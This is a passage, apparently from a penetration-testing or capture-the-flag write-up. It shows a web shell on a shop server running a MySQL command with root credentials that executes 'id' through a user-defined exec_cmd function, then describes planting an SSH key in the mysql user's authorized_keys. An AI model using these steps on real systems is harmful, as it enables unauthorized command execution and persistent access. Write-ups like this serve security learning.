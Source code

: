 ![](/assets/img/11-mysql-code-exec2.png)

`GET /shop/vqmod/xml/cantfindmyshell.php?var=mysql+-u+root+-pchangethis+-v+-e+"select+exec_cmd('id')"+mysql HTTP/1.1`

From these results I could see that this function was running in the context of the user `mysql`. Since I knew that this user could log in, I tried to insert my SSH public key into their `.ssh/authorized_keys` file so I could login using SSH.

![](/assets/img/11-mysql-mysql-sshkey.png)
